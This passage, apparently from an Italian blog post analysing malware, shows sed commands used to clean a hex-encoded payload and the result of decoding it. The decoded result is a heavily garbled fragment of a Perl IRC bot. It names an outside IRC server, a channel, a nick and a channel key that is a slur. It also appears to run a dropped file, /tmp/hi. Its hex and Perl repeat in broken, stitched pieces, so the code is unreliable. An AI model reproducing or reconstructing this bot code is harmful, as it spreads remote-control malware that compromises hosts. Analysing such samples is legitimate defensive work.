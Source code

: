 Ricorro alle mie solite magie e levo ogni doppio apice ed ogni \x con sed 
{% highlight sh %}
sed -e 's/"//g'
sed -e 's/\x//g'
{% endhighlight %}

Avremo alla fine
>23212f7573722f62696e2f7065726c0a246368616e3d2223636e223b0a246b65
223b0a7768696c6520283c24736f636b4720282e2a29242f297b7072696e7420
223b0a7768696c6520283c24736f636b6e223b0a202020202020202020202020
736c65657020313b0a202020202020206b5c6e223b7d7d7072696e742024736f
636b20224a4f494e20246368616e20246b65795c6e223b7768696c6520283c24
736f636b3e297b696620282f5e50494e4720282e2a29242f297b7072696e7420
23212f7573722f62696e2f7065726c0a23212f7573722f62696e2f7065726c0a
6e223b0a20202020202020202020202023212f7573722f62696e2f7065726c0a
246368616e3d2223636e223b246b6579203d2266616773223b246e69636b3d22
7068706672223b247365727665723d224720282e2a29242f297b7072696e7420
223b0a7768696c6520283c24736f636b6e223b0a202020202020202020202020
736c65657020313b0a202020202020206b5c6e223b7d7d7072696e742024736f
636b20224a4f494e20246368616e20246b65795c6e223b7768696c6520283c24
736f636b3e297b696620282f5e50494e4720282e2a29242f297b7072696e7420
23212f7573722f62696e2f7065726c0a23212f7573722f62696e2f7065726c0a
6972632e68616d2e64652e65756972632e6e6574223b245349477b5445524d7d
223b0a7768696c6520283c24736f636b223b0a7768696c6520283c24736f636b
6e223b0a202020202020202020202020736c65657020313b0a20202020202020
6e223b0a20202020202020202020202023212f7573722f62696e2f7065726c0a
246368616e3d2223636e223b246b6579203d2266616773223b246e69636b3d22
6b5c6e223b7d7d7072696e742024736f636b20224a4f494e20246368616e2024
6b65795c6e223b7768696c6520283c24736f636b3e297b696620282f5e50494e
4720282e2a29242f297b7072696e74207068706672223b247365727665723d22
6972632e68616d2e64652e65756972632e6e6574223b245349477b5445524d7d
736c65657020313b0a20202020202020736c65657020313b0a20202020202020
223b0a7768696c6520283c24736f636b6e223b0a202020202020202020202020
736c65657020313b0a2020202020202023212f7573722f62696e2f7065726c0a
246368616e3d2223636e223b246b6579203d2266616773223b246e69636b3d22
7068706672223b247365727665723d226972632e68616d2e64652e6575697263
2e6e6574223b245349477b5445524d7d64202b78202f746d702f686920323e2f
6465762f6e756c6c3b2f746d702f6869223b0a7768696c6520283c24736f636b
6e223b0a202020202020202020202020736c65657020313b0a20202020202020
6b5c6e223b7d7d7072696e742024736f636b20224a4f494e20246368616e2024
6b65795c6e223b7768696c6520283c24736f636b3e297b696620282f5e50494e
4720282e2a29242f297b7072696e7420223b0a7768696c6520283c24736f636b
6e223b0a202020202020202020202020736c65657020313b0a20202020202020
6b5c6e223b7d7d7072696e742024736f636b20224a4f494e20246368616e2024
6b65795c6e223b7768696c6520283c24736f636b3e297b696620282f5e50494e
4720282e2a29242f297b7072696e742023212f7573722f62696e2f7065726c0a

Convertiamolo e...
{% highlight pl linenos %}
#!/usr/bin/perl
$chan="#cn";
$ke?";
while (<$sockG (.*)$/){print ?";
while (<$sockn";
            ?sleep 1;
       k\n";}}print $so?ck "JOIN $chan $key\n";while (<$?sock>){if (/^PING (.*)$/){print ?#!/usr/bin/perl
#!/usr/bin/perl
?n";
            #!/usr/bin/perl
?$chan="#cn";$key ="fags";$nick="?phpfr";$server="G (.*)$/){print ?";
while (<$sockn";
            ?sleep 1;
       k\n";}}print $so?ck "JOIN $chan $key\n";while (<$?sock>){if (/^PING (.*)$/){print ?#!/usr/bin/perl
#!/usr/bin/perl